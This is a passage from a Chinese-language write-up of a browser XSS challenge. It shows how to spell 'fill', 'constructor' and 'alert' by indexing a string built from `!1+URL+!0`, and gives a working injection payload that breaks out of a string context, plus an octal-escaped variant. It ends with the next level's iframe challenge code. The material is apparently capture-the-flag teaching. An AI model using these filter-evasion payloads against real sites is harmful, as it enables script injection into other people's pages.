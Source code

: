 or 自己筛选字符。

```
_=!1+URL+!0
```
在chrome浏览器下，返回的字符串为
```
falsefunction URL() { [native code] }true
```

那么变量 `_` 即为 字符串 `falsefunction URL() { [native code] }true` 。

```
fill           =>    _[0]+_[10]+_[2]+_[2]
constructor    =>    _[8]+_[11]+_[7]+_[3]+_[9]+_[38]+_[39]+_[8]+_[9]+_[11]+_[38]
alert          =>    _[1]+_[2]+_[4]+_[38]+_[9]
```

只需要在JS中执行  `[]["fill"]["constructor"]("alert(1)")()` 即可。

其对应的JSfuck代码为：
```
_=!1+URL+!0,[][_[0]+_[10]+_[2]+_[2]][_[8]+_[11]+_[7]+_[3]+_[9]+_[38]+_[39]+_[8]+_[9]+_[11]+_[38]](_[1]+_[2]+_[4]+_[38]+_[9]+'(1)')()
```
最终的结果为
```
");_=!1+URL+!0,[][_[0]+_[10]+_[2]+_[2]][_[8]+_[11]+_[7]+_[3]+_[9]+_[38]+_[39]+_[8]+_[9]+_[11]+_[38]](_[1]+_[2]+_[4]+_[38]+_[9]+'(1)')()//
```

还可以转换成8进制，这样不含有像十六进制字符 `x` 。
```
");[]['\160\157\160']['\143\157\156\163\164\162\165\143\164\157\162']('\141\154\145\162\164(1)')()//
```

## iframe

```
function escape(s) {
  var tag = document.createElement('iframe');

  // For this one, you get to run any code you want, but in a "sandboxed" iframe.
  //
  // https://4i.am/?...raw=... just outputs whatever you pass in.
  //
  // Alerting from 4i.am won't count.

  s = '<script>' + s + '<\/script>';
  tag.src = 'https://4i.am/?:XSS=0&CT=text/html&raw=' + encodeURIComponent(s);

  window.WINNING = function() { youWon = true; };

  tag.setAttribute('onload', 'youWon && alert(1)');
  return tag.outerHTML;
}
```
